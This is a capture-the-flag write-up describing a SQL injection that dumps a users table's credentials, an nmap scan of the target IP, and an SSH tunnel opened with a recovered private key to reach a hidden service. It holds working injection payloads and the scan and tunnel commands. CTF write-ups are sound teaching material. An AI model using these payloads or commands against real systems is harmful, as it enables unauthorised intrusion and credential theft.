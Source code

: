 
### Challenge Overview
The challenge involved a web application vulnerable to SQL injection. By exploiting this vulnerability, we were able to extract database information, obtain credentials, and ultimately use SSH tunneling to access a hidden service and retrieve the flag.

### Exploiting SQL Injection
I first identified an SQL injection vulnerability in a parameter. To enumerate the database schema, I used the following payload to extract table names:

```sql
'''''''''''''''''''''''UNION SELECT null,null,null, sql FROM sqlite_schema'
```

This revealed a table named `users`. I then extracted user credentials using:

```sql
'''''''''''''''''''''''UNION SELECT null, null, null, username || '|' || password FROM users'
```

The payload needed to be URL-encoded before injecting it into the vulnerable parameter:

```
%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27%27UNION%20SELECT%20null%2C%20null%2C%20null%2C%20username%20%7C%7C%20%27%7C%27%20%7C%7C%20password%20FROM%20users%27
```

One of the extracted passwords hinted at a secret path, which provided access to a `.pem` private key file.

### Scanning for Open Ports
With the credentials , I scanned the target machine for open ports using Nmap:

```
sudo nmap -vv -Pn -sS 20.244.95.158
```

The scan revealed the following open ports:

```
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   closed http
8080/tcp closed http-proxy
```

### Establishing SSH Tunneling
Since port 8080 was closed externally, I used SSH port forwarding to access it locally. Using the obtained `.pem` key, I established an SSH tunnel:

```
ssh -L 9000:0.0.0.0:8080 quandale@20.244.95.158 -i quandale.pem
```

After successfully setting up the tunnel, I accessed `http://localhost:9000` in a web browser, revealing the flag:

```
EH4X{55H_Tunn3linG}
```

